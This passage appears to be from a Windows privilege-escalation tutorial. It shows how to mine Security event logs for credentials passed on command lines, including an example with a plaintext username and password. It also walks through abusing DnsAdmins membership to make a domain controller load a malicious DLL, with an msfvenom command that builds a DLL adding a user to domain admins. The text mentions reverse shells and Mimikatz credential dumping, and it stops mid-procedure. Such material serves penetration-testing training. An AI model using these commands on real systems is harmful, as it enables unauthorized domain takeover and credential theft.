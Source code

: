 Administrators or members of the [Event Log Readers](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers) group have permission to access log files.

We can query Windows events from the command line using the **wevtutil** utility and the **Get-WinEvent** PowerShell cmdlet.

```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

We can also specify alternate credentials for **wevtutil** using the parameters `/u` and `/p`.

```powershell
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

For **Get-WinEvent**, the syntax is as follows. In this example, we filter for process creation events (4688), which contain `/user` in the process command line.

```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```


### DnsAdmins Group

```powershell
whoami /groups
```

Members of the **DnsAdmins** group have access to DNS information on the network. The DNS service runs as **NT AUTHORITY\SYSTEM**, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. 

It is possible to use the built-in **dnscmd** utility to specify the path of the plugin DLL. As detailed in this [post](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller:
- DNS management is performed over RPC
- **ServerLevelPluginDll** allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the dnscmd tool from the command line
- When a member of the **DnsAdmins** group runs the **dnscmd** command below, the **HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll** registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

We can generate a malicious DLL to add a user to the domain admins group using **msfvenom**.

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Next, start a Python HTTP server.
